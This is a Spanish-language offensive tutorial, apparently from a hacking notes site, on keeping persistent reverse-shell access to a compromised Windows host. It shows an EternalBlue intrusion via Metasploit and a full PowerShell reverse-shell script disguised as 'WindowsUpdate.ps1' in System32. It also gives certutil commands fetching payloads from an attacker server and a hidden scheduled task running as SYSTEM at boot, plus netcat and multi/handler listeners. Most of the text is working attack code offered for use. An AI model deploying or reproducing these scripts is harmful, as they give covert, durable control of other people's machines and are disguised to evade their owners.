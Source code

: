```yaml
---
icon: window-flip
---
```


# Shell Persistente PowerShell

### <mark style="color:purple;">Intrusion a la maquina (Ejemplo)</mark>

Primero tendremos que comprometer una maquina `windows`, por ejemplo pongamos que es vulnerable al `Eternal Blue`, abriremos `metasploit`.

```shell
msfconsole -q
```

Una vez dentro ejecutamos los siguientes comandos para la intrusion:

```shell
use windows/smb/ms17_010_eternalblue
set RHOST <IP_VICTIM>
exploit
```

Una vez que estemos dentro, programaremos los scripts en nuestra maquina atacante...

### <mark style="color:purple;">Scripts para persistencia mediante PowerShell</mark>

Codigo `WindowsUpdate.ps1` para hacernos la `reverse shell` desde windows:

```powershell
while ($true) {
    try {
        # Intenta conectarse al puerto especificado
        $client = New-Object System.Net.Sockets.TcpClient("<IP>", <PORT>)
        $stream = $client.GetStream()
        $writer = New-Object System.IO.StreamWriter($stream)
        $writer.AutoFlush = $true
        $reader = New-Object System.IO.StreamReader($stream)

        # Escribe una línea indicando la conexión
        $writer.WriteLine("Conexión establecida desde $($env:COMPUTERNAME)")

        # Bucle de comandos
        while ($true) {
            # Espera un comando del cliente
            $writer.Write("shell> ")  # Indica que está listo para recibir un comando
            $cmd = $reader.ReadLine()
            
            if ($cmd -eq 'exit') {
                $writer.WriteLine("Cerrando conexión...")
                break
            }

            try {
                # Ejecuta el comando y captura la salida
                $output = Invoke-Expression $cmd 2>&1

                # Convierte la salida a cadena y envía de vuelta al cliente
                if ($output -is [System.Array]) {
                    $output = $output -join "`n"  # Unir elementos del array en líneas
                }
                
                # Envía la salida de vuelta al cliente
                if ($output) {
                    $writer.WriteLine($output)
                } else {
                    $writer.WriteLine("Comando ejecutado correctamente.")
                }
            }
            catch {
                # Manejo de errores
                $writer.WriteLine("Error: $_")
            }
        }

        # Cierra la conexión
        $client.Close()
    }
    catch {
        # Espera 5 segundos antes de volver a intentar si falla
        Start-Sleep -Seconds 5
    }
}
```

Cambiar `<IP>` y `<PORT>` por las necesidades de cada uno.

Despues crear `Update.ps1` que sera el que ejecute en bucle el archivo `WindowsUpdate.ps1`:

```powershell
while ($true) {
    powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\WindowsUpdate.ps1
    Start-Sleep -Seconds 5
}
```

### <mark style="color:purple;">Pasar scripts a la maquina victima mediante metasploit</mark>

Tendremos que pasar esos archivos a la maquina victima, en mi caso lo llevare a `C:\Windows\System32` para que se quede bien camuflado.

```shell
cd C:\Windows\System32\
```

Si estamos en `metasploit` con la maquina comprometida podremos subirlos de la siguiente forma:

```shell
upload WindowsUpdate.ps1
upload Update.ps1
```

Despues ejecutaremos `shell`, para obtener la `shell` de `windows`.

### <mark style="color:purple;">Pasar scripts a la maquina victima mediante terminal</mark>

Imaginemos que no estamos utilizando `metasploit` lo podremos hacer de esta otra forma...

Primero nos abriremos un servidor de `python3`.

```shell
python3 -m http.server
```

En la maquina victima que habremos comprometido de `windows` con una `shell` normal, pondremos los sigueintes comandos:

```shell
cd C:\Windows\System32\
certutil.exe -f -urlcache -split http://<IP>:8000/WindowsUpdate.ps1 WindowsUpdate.ps1
certutil.exe -f -urlcache -split http://<IP>:8000/Update.ps1 Update.ps1
```

Asi nos pasaremos los 2 archivos a la maquina victima.

### <mark style="color:purple;">Programar persistencia en la maquina victima</mark>

Despues en la maquina `windows` que tenemos comprometida, ejecutaremos el siguiente comando:

```shell
schtasks /create /tn "Actualización de Sistema" /tr "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\WindowsUpdate.ps1" /sc onstart /ru "SYSTEM" /rl highest /f
```

Info:

```
schtasks /create /tn "Actualización de Sistema" /tr "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\Update.ps1" /sc onstart /ru "SYSTEM" /rl highest /f
Correcto: se cre correctamente la tarea programada "Actualización de Sistema".
```

Con esto ya habriamos creado la tarea programada en `windows`, lo comprobaremos de la siguiente forma:

```shell
schtasks /query /tn "Actualización de Sistema"
```

Info:

```
Carpeta: \
Nombre de tarea                          Hora prxima ejecucin Estado         
======================================== ====================== ===============
Actualización de Sistema                 No disponible          Listo          
```

Despues probaremos a estar a la escucha en nuestra maquina atacante:

```shell
nc -lvnp <PORT>
```

Y en la maquina victima ejecutaremos el siguiente codigo para saber que todo se carga correctamente:

```shell
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\WindowsUpdate.ps1
```

Una vez comprobado, ya podremos reiniciar el equipo, hacer lo que queramos, hacerle `Ctrl+C` a la `shell` y volver a estar a la escucha para otra vez recuperarla, ya tendremos `persistencia`.

### <mark style="color:purple;">Escucha mediante terminal</mark>

Ahora podremos obtener la `shell` todas las veces que queramos por que se estara ejecutando cada 5 segundos, por lo que solo tendremos que poner el siguiente comando:

```shell
nc -lvnp <PORT>
```

Y todas las veces que pongamos eso nos hara una `shell` cada 5 segundos, aunque reinicie el sistema y vuelva a ejecutarse `windows` podremos seguir obteniendola.

Info:

```
listening on [any] 7777 ...
connect to [192.168.5.147] from (UNKNOWN) [192.168.5.141] 49193
ConexiÃ³n establecida desde VULN-SMBV2
shell> whoami
nt authority\system
```

### <mark style="color:purple;">Escucha mediante metasploit</mark>

Tambien lo podemos hacer mediante `metasploit`.

```shell
msfconsole -q
```

Una vez dentro ejecutaremos los siguiente comandos:

```shell
use multi/handler
set LHOST <IP>
set LPORT <PORT>
run
```

Y con esto obtendremos una `shell` mediante `metasploit`.

### <mark style="color:purple;">Eliminar la tarea persistente y los scripts</mark>

Pondremos los siguientes comandos dentro de la maquina `windows`:

```shell
del WindowsUpdate.ps1
del Update.ps1
schtasks /delete /tn "Actualización de Sistema" /f
```

Y con esto ya habriamos dejado limpio el sistema.
